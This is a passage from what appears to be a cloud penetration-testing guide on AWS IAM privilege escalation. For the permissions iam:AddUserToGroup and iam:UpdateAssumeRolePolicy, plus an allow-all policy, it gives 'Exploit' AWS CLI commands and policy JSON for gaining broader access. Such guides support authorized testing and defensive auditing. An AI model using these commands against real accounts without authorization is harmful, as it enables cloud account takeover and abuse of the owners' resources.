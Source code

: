You can use a policy like:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "*"
            ],
            "Resource": [
                "*"
            ]
        }
    ]
}
```

**Impact:** Direct privilege escalation by adding permissions through policies.

### **`iam:AddUserToGroup`**

Enables adding oneself to an IAM group, escalating privileges by inheriting the group's permissions.

**Exploit:**

{% code overflow="wrap" %}
```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
{% endcode %}

**Impact:** Direct privilege escalation to the level of the group's permissions.

### **`iam:UpdateAssumeRolePolicy`**

Allows altering the assume role policy document of a role, enabling the assumption of the role and its associated permissions.

**Exploit:**

```bash
aws iam update-assume-role-policy --role-name <role_name> \
    --policy-document file:///path/to/assume/role/policy.json
```

Where the policy looks like the following, which gives the user permission to assume the role:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRole",
            "Principal": {
                "AWS": "$USER_ARN"
            }
        }
    ]
}
```
